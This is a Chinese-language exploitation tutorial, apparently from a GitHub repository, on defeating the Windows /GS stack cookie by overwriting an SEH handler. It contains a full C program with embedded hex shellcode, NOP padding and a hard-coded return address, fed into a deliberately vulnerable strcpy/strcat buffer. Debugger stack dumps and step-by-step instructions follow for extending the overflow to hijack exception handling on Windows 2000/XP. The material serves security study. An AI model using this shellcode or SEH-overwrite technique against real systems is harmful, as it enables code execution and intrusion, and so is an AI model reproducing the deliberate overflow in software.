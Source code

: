 # Attack exception handling bypass GS

**Author：wnagzihxain
Mail：tudouboom@163.com**

```
// attack_SEH.cpp : 定义控制台应用程序的入口点
//

#include <stdafx.h>
#include <string.h>

char shellcode[] =
		"\xFC\x68\x6A\x0A\x38\x1E\x68\x63\x89\xD1\x4F\x68\x32\x74\x91\x0C"
		"\x8B\xF4\x8D\x7E\xF4\x33\xDB\xB7\x04\x2B\xE3\x66\xBB\x33\x32\x53"
		"\x68\x75\x73\x65\x72\x54\x33\xD2\x64\x8B\x5A\x30\x8B\x4B\x0C\x8B"
		"\x49\x1C\x8B\x09\x8B\x69\x08\xAD\x3D\x6A\x0A\x38\x1E\x75\x05\x95"
		"\xFF\x57\xF8\x95\x60\x8B\x45\x3C\x8B\x4C\x05\x78\x03\xCD\x8B\x59"
		"\x20\x03\xDD\x33\xFF\x47\x8B\x34\xBB\x03\xF5\x99\x0F\xBE\x06\x3A"
		"\xC4\x74\x08\xC1\xCA\x07\x03\xD0\x46\xEB\xF1\x3B\x54\x24\x1C\x75"
		"\xE4\x8B\x59\x24\x03\xDD\x66\x8B\x3C\x7B\x8B\x59\x1C\x03\xDD\x03"
		"\x2C\xBB\x95\x5F\xAB\x57\x61\x3D\x6A\x0A\x38\x1E\x75\xA9\x33\xDB"
		"\x53\x68\x77\x65\x73\x74\x68\x66\x61\x69\x6C\x8B\xC4\x53\x50\x50"
		"\x53\xFF\x57\xFC\x53\xFF\x57\xF8\x90\x90\x90\x90\x90\x90\x90\x90"
		"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
		"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
		"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
		"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
		"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
		"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
		"\x90\x90\x90\x90"
		"\xA0\xFE\x12\x00"//address of shellcode
;

void test(char* input)
{
	__asm int 3
	char buf[200];
	strcpy(buf, input);
	strcat(buf, input);
}

int main()
{
	test(shellcode);
	return 0;
}
```

拿到代码后，按照第一篇写的设置VS，我的win2000装不了VS，所以我在win xp下安装了

但是生成的exe还是在win2000下运行，不然safeSEH会有影响

然后在如图所示位置下个断点

![](Image/1.png)

Release版本的走起来，可以看到生成Security Cookie的代码，同时注意EAX和EBP，右下角我已经跳到了Security Cookie的位置了

![](Image/2.png)

然后往下看，可以看到这里是strcpy，`ss:[ebp+8]`是参数，也就是传进去shellcode的指针，然后第二个是目的地址，也就是在最开始开辟的栈空间的起始地址

![](Image/3.png)

我们先把栈布局复制下来
``` 
0012FE94   003425B8
0012FE98   00000000
0012FE9C   000001F6
0012FEA0   00340000
0012FEA4   000001DD
0012FEA8   00343098
0012FEAC   00343090
0012FEB0   00340168
0012FEB4   77FCCCA4  返回到 ntdll.77FCCCA4 来自 ntdll.77F83235
0012FEB8   00340000
0012FEBC   00343090
0012FEC0   00000000
0012FEC4   00343098
0012FEC8  /0012FF0C
0012FECC  |00405342  返回到 attack_S.00405342 来自 ntdll.RtlSizeHeap
0012FED0  |00340000
0012FED4  |00000000
0012FED8  |0040534B  返回到 attack_S.0040534B 来自 attack_S.00402799
0012FEDC  |0BF59A7E
0012FEE0  |00343098
0012FEE4  |00343098
0012FEE8  |00000000
0012FEEC  |0012FF2C
0012FEF0  |77F81F55  ntdll.77F81F55
0012FEF4  |0012FEDC
0012FEF8  |0012FF60
0012FEFC  |00000004
0012FF00  |00000004
0012FF04  |00402193  返回到 attack_S.00402193
0012FF08  |00000001
0012FF0C  \00402147  attack_S.00402147
0012FF10   00402D9C  返回到 attack_S.00402D9C 来自 attack_S.0040216B
0012FF14   0034309C
0012FF18   00402A93  返回到 attack_S.00402A93 来自 ntdll.RtlLeaveCriticalSection
0012FF1C   0040B608  attack_S.0040B608
0012FF20   0012FF60
0012FF24   004014A0  返回到 attack_S.004014A0 来自 attack_S.00402A80
0012FF28   00000008
0012FF2C   00402E18  返回到 attack_S.00402E18 来自 attack_S.00401499
0012FF30   00402E12  返回到 attack_S.00402E12 来自 attack_S.00402799
0012FF34   0BF59A12
0012FF38   00000893
0012FF3C   00000002
0012FF40   77E63D36  KERNEL32.GetProcessHeap
0012FF44   00402147  attack_S.00402147
0012FF48   0012FF34
0012FF4C   49656E69
0012FF50   0012FFB0
0012FF54   004027B0  attack_S.004027B0
0012FF58   0BA7F6BA
0012FF5C   FFFFFFFE
0012FF60   0BF59A16
0012FF64  /0012FF70
0012FF68  |0040721D  返回到 attack_S.0040721D 来自 attack_S.004071C0
0012FF6C  |0040ACA0  attack_S.0040ACA0
```

我们运行到call之前，可以看到栈里面两个参数

![](Image/4.png)

运行之后就会溢出

![](Image/5.png)

但是我们观察栈的布局，发现shellcode的长度不够，并没有覆盖SEH，所以我们修改一下长度，这个长度根据你的虚拟机确定

但是不着急，顺便修改一下覆盖SEH的值，可以看到，目的地址是`0x0012FE94`，那么我们就需要用这个指针来覆盖SEH，这样处理异常的时候就会直接执行shellcode

![](Image/6.png)

当然这只是作为例子来演示，在实际的攻击中用固定地址是几乎不可能成功的事，因为每台pc都不一样，你怎么确定每次的buff地址都是我们这次设置的值？